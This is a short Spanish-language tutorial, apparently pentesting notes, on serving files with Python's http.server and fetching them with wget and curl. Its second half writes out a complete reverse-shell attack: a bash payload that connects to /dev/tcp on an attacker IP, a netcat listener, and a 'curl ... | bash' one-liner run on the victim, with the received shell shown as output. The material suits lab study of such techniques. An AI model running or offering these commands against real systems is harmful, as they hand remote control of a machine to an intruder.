

# Cómo Compartir Archivos Con Servidor Http Con Python + Reverse Shell

Compartir archivos

* Primero montar un servidor web con python ubicado donde estén los archivos para compartir:

```bash
└─$ ls
archivo.txt

└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Descargar el archivo vía navegador web:&#x20;


<figure><figcaption></figcaption></figure>

* Descargar el archivo vía el comando wget:

```bash
$ wget http://192.168.1.18/archivo.txt
--2024-10-06 02:05:23--  http://192.168.1.18/archivo.txt
Conectando con 192.168.1.18:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 56 [text/plain]
Guardando como: “archivo.txt”

archivo.txt                                        100%[===============================================================================================================>]      56  --.-KB/s    en 0s      

2024-10-06 02:05:23 (7,77 MB/s) - “archivo.txt” guardado [56/56]

$ ls
archivo.txt
```

* Descargar el archivo vía comando curl:

```bash
$ curl -O http://192.168.1.18/archivo.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    56  100    56    0     0   6222      0 --:--:-- --:--:-- --:--:--  8000
$ ls
archivo.txt
```

Reverse-shell

* Crear archivo con el payload para hacer la reverse-shell:

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.1.18/7777 0>&1
```

* Montar un servidor web con python ubicado donde este el archivo creado de antes:

```bash
└─$ ls
rs.sh

└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

* Con netcat en la máquina de atacante en escucha para recibir la revershell:

```bash
└─$ nc -lvnp 7777
listening on [any] 7777 ...
```

* Con curl desde la máquina victima enviar una petición al servidor web y ejecutar el archivo con bash:

```bash
$ curl http://192.168.1.18/rs.sh | bash
```

* Recibir la reverse-shell con curl:

```bash
└─$ nc -lvnp 7777
listening on [any] 7777 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.24] 33646
abdel@uclient:~/Escritorio$ 
```
